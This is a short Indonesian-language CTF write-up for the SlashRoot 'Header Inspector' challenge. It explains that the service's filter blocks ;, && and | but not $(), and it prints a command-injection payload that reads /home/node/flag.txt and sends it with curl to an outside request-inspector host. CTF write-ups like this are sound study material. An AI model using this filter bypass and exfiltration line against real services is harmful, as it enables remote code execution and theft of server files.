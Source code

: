 ```yaml
---
author: cacadosman
date: 2018-07-31 10:12:31+00:00
draft: false
title: Writeup SlashRoot CTF - Header Inspector 200
type: post
url: /writeup-slashroot-ctf-header-inspector-200/
comments: true
categories:
- CTF
- Cyber Security
- Tutorial
---
```


Pada soal, diberikan sebuah url web

[http://103.200.7.156:7080/](http://103.200.7.156:7080/)

Saat kita buka url tsb, ternyata kita dapat mengecek header dari suatu url, misal google

![](/wp-content/2018/07/headins1.png)


Pastinya Remote Code Execution, karena biasanya soal tipe seperti ini menggunakan curl. Sayangnya filter lumayan kerad, (; && | ternyata dibanned :”).

Oke, untungnya $() tidak dibanned.

Kita akan membypassnya menggunakan command curl yang dibungkus dengan $() dan mengoper responsenya  ke HTTP Request Inspector

[http://reqbin.cacadosman.web.id/v0b9bnv0?inspect](http://reqbin.cacadosman.web.id/v0b9bnv0?inspect)

Kita eksekusi dengan memasukkan payload berikut


```bash
$(curl --data "flag=$(cat /home/node/flag.txt)" http://reqbin.cacadosman.web.id/v0b9bnv0)
```


BIMSALABIM AVADA KADAVRA

![](/wp-content/2018/07/headins2.png)


**SlashRootCTF{b3c0me_a_cvvvrL_n1nj4!}**
